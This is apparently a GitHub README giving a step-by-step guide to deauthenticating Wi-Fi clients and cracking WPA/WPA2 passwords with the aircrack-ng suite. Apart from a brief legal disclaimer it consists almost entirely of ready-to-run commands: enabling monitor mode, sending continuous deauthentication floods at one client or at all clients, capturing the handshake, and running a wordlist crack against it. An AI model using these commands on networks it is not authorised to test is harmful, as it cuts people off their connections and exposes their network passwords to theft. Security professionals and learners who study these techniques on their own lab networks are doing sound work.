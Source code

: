 # Deauthentication Attack and Wi-Fi Password Cracking using aircrack-ng

## Disclaimer
**WARNING: Unauthorized access to computer networks is illegal and unethical. This guide is intended for educational purposes only and should only be used on networks for which you have explicit permission. Misuse of this information can lead to severe legal consequences.**

## Prerequisites
- A computer with a compatible wireless network adapter that supports monitor mode.
- `aircrack-ng` suite installed.
- Root or sudo access.

## Step 1: Install aircrack-ng
To install the `aircrack-ng` suite, use the following commands:

```bash
# Update package lists
sudo apt update

# Install aircrack-ng
sudo apt install aircrack-ng

#Step 2: Set Wireless Interface to Monitor Mode
Find your wireless interface name and set it to monitor mode.
# List network interfaces
sudo iwconfig

# Stop any process that could interfere with monitor mode
sudo airmon-ng check kill

# Start monitor mode on your wireless interface (e.g., wlan0)
sudo airmon-ng start wlan0

# Verify that the interface is now in monitor mode (e.g., wlan0mon)
sudo iwconfig

#Step 3: Capture Traffic with airodump-ng
# Start capturing packets on the monitor mode interface
sudo airodump-ng wlan0mon

# Note the BSSID (MAC address) and channel of the target network
#Step 4: Deauthentication Attack with aireplay-ng
Send deauthentication packets to disconnect clients from the target network, forcing them to reconnect and capture the handshake.

# Deauthenticate a specific client
sudo aireplay-ng --deauth 0 -a <BSSID> -c <Client_MAC> wlan0mon

# Deauthenticate all clients from the target network
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon

#Step 5: Capture the WPA/WPA2 Handshake
# Capture the handshake by specifying the BSSID and channel
sudo airodump-ng -c <Channel> --bssid <BSSID> -w capture wlan0mon

# Look for "WPA handshake" in the airodump-ng output

#Step 6: Crack the Password with aircrack-ng
# Run aircrack-ng with the captured handshake file and a wordlist
sudo aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap


